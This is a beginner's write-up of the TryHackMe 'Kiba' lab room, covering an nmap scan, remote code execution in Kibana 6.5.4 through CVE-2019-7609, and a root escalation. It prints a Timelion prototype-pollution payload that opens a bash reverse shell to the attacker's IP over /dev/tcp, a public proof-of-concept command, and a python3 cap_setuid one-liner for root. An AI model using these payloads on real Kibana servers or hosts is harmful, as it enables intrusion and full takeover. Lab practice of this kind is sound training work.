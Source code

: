 # ROOM : KIBA

Hello, i'm Frygg, today i show you my little contribution to the word of cybersecurity. Here a little write up for the room Kiba on TryHackMe, hope it can help someone ;).

In this write up, you can see :

1. Somes usefull tools !
2. Exploiting a RCE using one CVE and obtaining acces to the server
3. Root the machine !!!

This is my first write up, it may be modified !

## 1. Enumeration

First of all, i have to gather somes informations about this boxe.
I run nmap scan to get open port, version etc.

`nmap -sC -sV {ip}`

3 ports is open as you can see in the result :

```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-20 16:19 EDT
Nmap scan report for 10.10.223.77
Host is up (0.034s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE   VERSION
22/tcp   open  ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9d:f8:d1:57:13:24:81:b6:18:5d:04:8e:d2:38:4f:90 (RSA)
|   256 e1:e6:7a:a1:a1:1c:be:03:d2:4e:27:1b:0d:0a:ec:b1 (ECDSA)
|_  256 2a:ba:e5:c5:fb:51:38:17:45:e7:b1:54:ca:a1:a3:fc (ED25519)
80/tcp   open  http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
5601/tcp open  esmagent?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|     HTTP/1.1 400 Bad Request
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 60
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:28 GMT
|     {"statusCode":404,"error":"Not Found","message":"Not Found"}
|   GetRequest: 
|     HTTP/1.1 302 Found
|     location: /app/kibana
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     cache-control: no-cache
|     content-length: 0
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:27 GMT
|   HTTPOptions: 
|     HTTP/1.1 404 Not Found
|     kbn-name: kibana
|     kbn-xpack-sig: c4d007a8c4d04923283ef48ab54e3e6c
|     content-type: application/json; charset=utf-8
|     cache-control: no-cache
|     content-length: 38
|     connection: close
|     Date: Sun, 20 Aug 2023 20:20:27 GMT
|_    {"statusCode":404,"error":"Not Found"}
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5601-TCP:V=7.94%I=7%D=8/20%Time=64E27588%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,D4,"HTTP/1\.1\x20302\x20Found\r\nlocation:\x20/app/kibana\r\nk
SF:bn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6
SF:c\r\ncache-control:\x20no-cache\r\ncontent-length:\x200\r\nconnection:\
SF:x20close\r\nDate:\x20Sun,\x2020\x20Aug\x202023\x2020:20:27\x20GMT\r\n\r
SF:\n")%r(HTTPOptions,117,"HTTP/1\.1\x20404\x20Not\x20Found\r\nkbn-name:\x
SF:20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d04923283ef48ab54e3e6c\r\nconte
SF:nt-type:\x20application/json;\x20charset=utf-8\r\ncache-control:\x20no-
SF:cache\r\ncontent-length:\x2038\r\nconnection:\x20close\r\nDate:\x20Sun,
SF:\x2020\x20Aug\x202023\x2020:20:27\x20GMT\r\n\r\n{\"statusCode\":404,\"e
SF:rror\":\"Not\x20Found\"}")%r(RTSPRequest,1C,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\n\r\n")%r(RPCCheck,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:n\r\n")%r(DNSVersionBindReqTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(DNSStatusRequestTCP,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r
SF:\n\r\n")%r(Help,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SSLS
SF:essionReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TerminalSe
SF:rverCookie,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(TLSSessio
SF:nReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(Kerberos,1C,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SMBProgNeg,1C,"HTTP/1\.1\x
SF:20400\x20Bad\x20Request\r\n\r\n")%r(X11Probe,1C,"HTTP/1\.1\x20400\x20Ba
SF:d\x20Request\r\n\r\n")%r(FourOhFourRequest,12D,"HTTP/1\.1\x20404\x20Not
SF:\x20Found\r\nkbn-name:\x20kibana\r\nkbn-xpack-sig:\x20c4d007a8c4d049232
SF:83ef48ab54e3e6c\r\ncontent-type:\x20application/json;\x20charset=utf-8\
SF:r\ncache-control:\x20no-cache\r\ncontent-length:\x2060\r\nconnection:\x
SF:20close\r\nDate:\x20Sun,\x2020\x20Aug\x202023\x2020:20:28\x20GMT\r\n\r\
SF:n{\"statusCode\":404,\"error\":\"Not\x20Found\",\"message\":\"Not\x20Fo
SF:und\"}")%r(LPDString,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r
SF:(LDAPSearchReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(LDAPB
SF:indReq,1C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n")%r(SIPOptions,1C
SF:,"HTTP/1\.1\x20400\x20Bad\x20Request\r\n\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.40 seconds

```

WebServer is empty, just the default apache page. Lets look to the port 5601, who is Kibana.

Kibana is a data visualization dashboard for Elasticsearch.

## 2. Research of exploit !
After a quick analyze, we found Kibana is in version 6.5.4.

After one quick search on google, we found one CVE about Kibana : **CVE-2019-7609**
This CVE can lead to a RCE (Remote Code Execution).

On a shell, i run a listenner on port 4444 :

`nc -lnvp 4444`

On the Timelion, we can use this payload :

`
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/{MY_IP}/4444 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
`

Then run the code and load the canvas page. We get the reverse shell.

Or we can use this [PoC](https://github.com/LandGrey/CVE-2019-7609)

`python2 CVE-2019-7609-kibana-rce.py -u http://10.10.223.77:5601 -host {MY_IP} -port 4444 --shell`

And we have just to wait on the listenner (previously runned with netcat)

Nice, we have the reverse shell on the web server !

`THM{xx_xxxx_xxxxx_xxxxxx_xxxx_xxx}`

## 3. Privilege escalation !

After quick research of config files or something usefull, i found something interesting in kiba's home.
One folder is named **.hackmeplease**, in this folder, we have one file, python3 binarie

We have to search capabilites to see if we can exloit it:

`getcap -r / 2<dev/null`

We found this capabilite who is exploitable to get the root :

`/home/kiba/.hackmeplease/python3 = cap_setuid+ep`

This binarie have **cap_setuid+ep** attribute, wich means this binarie can set his UID. 
We can use it to generate a shell with UID 0 and getting a shell with root privileges.

On [GTFOBins](https://gtfobins.github.io/) we have the right payload to get the root :

```/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'```

We have the root !

This boxe is now rooted !

`THM{xxxxxxxxx_xxxxxxxxxx_xxxxx_xxxxxxxxxxxx}`
